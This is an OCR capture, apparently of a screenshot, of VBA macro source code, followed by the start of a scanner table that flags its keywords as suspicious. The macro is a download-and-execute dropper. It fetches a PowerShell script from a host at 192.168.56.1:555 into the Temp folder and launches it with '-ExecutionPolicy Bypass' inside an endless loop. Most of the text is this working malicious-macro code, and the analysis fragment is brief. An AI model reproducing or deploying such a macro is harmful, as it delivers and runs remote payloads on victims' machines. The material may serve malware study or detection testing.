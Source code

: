 ```
        ByVal lpFile As String, _
        ByVal lpParameters As String, _
        ByVal lpDirectory As String, _
        ByVal nShowCmd As Long) As Long
#Else
    Declare Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" ( _
        ByVal pCaller As Long, _
        ByVal szURL As String, _
        ByVal szFileName As String, _
        ByVal dwReserved As Long, _
        ByVal lpfnCB As Long) As Long

    Declare Function ShellExecute Lib "shell32.dll" Alias "ShellExecuteA" ( _
        ByVal hwnd As Long, _
        ByVal lpOperation As String, _
        ByVal lpFile As String, _
        ByVal lpParameters As String, _
        ByVal lpDirectory As String, _
        ByVal nShowCmd As Long) As Long
#End If

Sub DownloadAndExecuteScript()
    Dim url As String
    Dim localFilePath As String
    Dim result As Long

    ' URL of the PowerShell script you want to download
    url = "http://192.168.56.1:555/myscript.ps1"

    ' Local file path where you want to save the downloaded script
    localFilePath = "C:\Users\User\AppData\Local\Temp\myscript.ps1"
    ' Download the script
    result = URLDownloadToFile(0, url, localFilePath, 0, 0)

    Do
        ' Check the result
        If result = 0 Then
            Debug.Print "PowerShell script downloaded successfully."
            
            ' Execute the downloaded script (you may adjust the execution parameters)
            result = ShellExecute(0, "open", "powershell.exe", "-ExecutionPolicy Bypass -File """ & localFilePath & """", vbNullString, vbNormalFocus)
    
            If result > 32 Then
                Debug.Print "PowerShell script executed successfully."
            Else
                Debug.Print "Failed to execute the PowerShell script. Error code: " & result
            End If
        Else
            Debug.Print "Failed to download the PowerShell script. Error code: " & result
        End If
    Loop While True

End Sub


+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|Suspicious|open                |May open a file                              |
|Suspicious|vbNormalFocus       |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|ShellExecute        |May run an executable file or a system       |
```